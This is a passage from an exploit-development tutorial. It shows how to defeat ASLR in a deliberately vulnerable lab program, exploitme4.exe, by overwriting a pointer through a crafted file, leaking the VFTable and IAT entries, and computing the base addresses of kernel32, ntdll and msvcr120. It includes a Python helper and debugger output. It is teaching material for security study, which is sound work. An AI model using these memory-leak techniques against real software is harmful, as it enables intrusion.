There’s no trace of the “a“s (0x61616161) we put in the buffer name, so we must keep searching. Let’s try with 0x60:
write_file(0x60)
After updating name.dat, press ‘y‘ in the console of exploitme4.exe and look at the portion of memory dumped. Since exploitme4.exe shows 0x20 bytes at a time, we can increment or decrement ptr by 0x20. Let’s try other values (keep pressing ‘y‘ in the console after each update of the file name.dat):
write_file(0x40) write_file(0x20) write_file(0x00) write_file(0xa0) write_file(0xc0)
The value 0xc0 does the trick:
Reading name from file... Hi, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa└°&! 0x00000000 0x0026f8cc 0x011421a0 0x61616161 0x61616161 0x61616161 0x61616161 0x 61616161] Do you want to read the name again? [y/n]
It’s clear that 0x011421a0 is the pointer to the VFTable. Now let’s read the contents of the VFTable:
def write_file(ptr):
with open(r'c:\name.dat', 'wb') as f:
name = 'a'*32 + struct.pack('<I', ptr)
f.write(name)
write_file(0x011421a0)
By pressing ‘y‘ again in the console, we see the following:
Reading name from file... Hi, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaá!¶☺☺! 0x01141000 0x01141020 0x00000048 0x00000000 0x00000000 0x00000000 0x00000000 0x 00000000] Do you want to read the name again? [y/n]
The two pointers to the virtual functions are 0x01141000 and 0x01141020. We saw that the RVA to the first one is 0x1000, therefore the base address of exploitme4 is
0:000> ? 01141000 - 1000 Evaluate expression: 18087936 = 01140000
Now it’s time to use what we know about the IAT of exploitme4.exe:
@exploitme4 + 00002000 kernel32 + 00014a25 @exploitme4 + 00002004 ntdll + 00039dd5 @exploitme4 + 00002024 msvcr120 + 000a4ced
Because we’ve just found out that the base address of exploitme4.exe is 0x01140000, we can write
@0x1142000 kernel32 + 00014a25 @0x1142004 ntdll + 00039dd5 @0x1142024 msvcr120 + 000a4ced
Let’s overwrite ptr with the first address:
write_file(0x1142000)
By pressing ‘y‘ in the console we get:
Reading name from file... Hi, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa! 0x76334a25 0x770f9dd5 0x763334c9 0x76331420 0x763311f8 0x763316f1 0x7710107b 0x 763351fd] Do you want to read the name again? [y/n]
We get two values: 0x76334a25 and 0x770f9dd5.
We need the last one:
write_file(0x1142024)
By pressing ‘y‘ in the console we get:
Reading name from file...
Hi, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa$ ¶☺☺!
0x6ca94ced 0x6ca6bb8d 0x6ca1e25f 0x6ca1c7ce 0x6ca24293 0x6ca6bbb8 0x6ca24104 0x
6ca955eb]
Do you want to read the name again? [y/n]The final value is 0x6ca94ced.
So we have
@0x1142000 kernel32 + 00014a25 = 0x76334a25 @0x1142004 ntdll + 00039dd5 = 0x770f9dd5 @0x1142024 msvcr120 + 000a4ced = 0x6ca94ced
Therefore,
kernel32 = 0x76334a25 - 0x00014a25 = 0x76320000 ntdll = 0x770f9dd5 - 0x00039dd5 = 0x770c0000 msvcr120 = 0x6ca94ced - 0x000a4ced = 0x6c9f0000
Congratulations! We have just bypassed ASLR!
Of course, all this process makes sense when we have remote access to the program but not to the machine. Moreover, in an actual exploit all this can and need to be automated. Here, I’m just trying to show you the principles and therefore I’ve willingly omitted any superflous details which would’ve complicated matters without adding any real depth to your comprehension. Don’t worry: when we deal with Internet Explorer we’ll see a real exploit in all its glory!